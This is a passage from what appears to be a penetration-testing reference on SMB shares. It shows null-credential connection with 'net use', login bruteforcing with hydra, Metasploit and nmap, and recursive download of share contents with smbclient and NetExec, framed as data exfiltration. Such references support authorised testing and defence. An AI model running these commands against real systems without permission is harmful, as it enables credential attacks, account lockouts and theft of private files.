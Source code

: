 
=== Windows

The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

> [!CAUTION]
> If null credentials are not explicitly set, Windows will natively use implicit credentials (e.g. Kerberos tickets in cache, logged on user creds or computer account)

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```

:::


### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

> [!WARNING]
> In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [NetExec](https://github.com/Pennyw0rth/NetExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With netexec
netexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```
